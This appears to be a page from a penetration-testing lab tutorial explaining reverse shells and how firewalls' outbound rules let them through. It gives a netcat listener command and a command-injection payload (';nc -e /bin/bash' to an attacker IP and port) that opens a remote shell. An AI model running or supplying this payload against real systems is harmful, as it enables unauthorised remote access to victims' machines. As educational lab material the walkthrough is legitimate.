 # Stage 3: Exploiting Vulnerability

### What Is A Reverse Shell

A reverse shell is a method attackers use to access a victim's system. The reverse shell is so effective because of the way most firewalls are already configured. Most firewalls default to deny all inbound traffic but allow all outbound traffic. A reverse shell is so effective because the attacker uses an exploit to send out a shell from the victim's system to the attacker's WAN to gain access. This bypasses the firewall because it allows all traffic outbound rules to send a shell to the attacker's WAN. 

### How To Catch A Reverse Shell
To catch a reverse shell you need 3 things: 

- Listener (think: _'thing that catches reverse shell'_)
- Payload (think: _'thing that sends you a reverse shell'_)
- Port Forwarding rule (think: _'thing that forwards reverse shell from router to kali'_)


### Listener

Attacker:

```bash
nc -lvp 44554
```

nc: stands for "netcat" which is a versatile networking tool used for various communication purposes.

-l: instructs netcat to listen for incoming connections on a specified port.

v: enables verbose mode, providing more detailed output about the connection.

p 44554: specifies the port number (44554 in this case) on which netcat should listen.

### Payload

```bash
;nc -e /bin/bash 192.168.122.209 44554
```

nc: stands for "netcat" which is a versatile networking tool used for various communication purposes.

-e /bin/bash: specifies that netcat should execute a shell (/bin/bash) on the established connection.

192.168.122.209 44554: This specifies the target IP address (192.168.122.209) and port number (44554) to connect to.


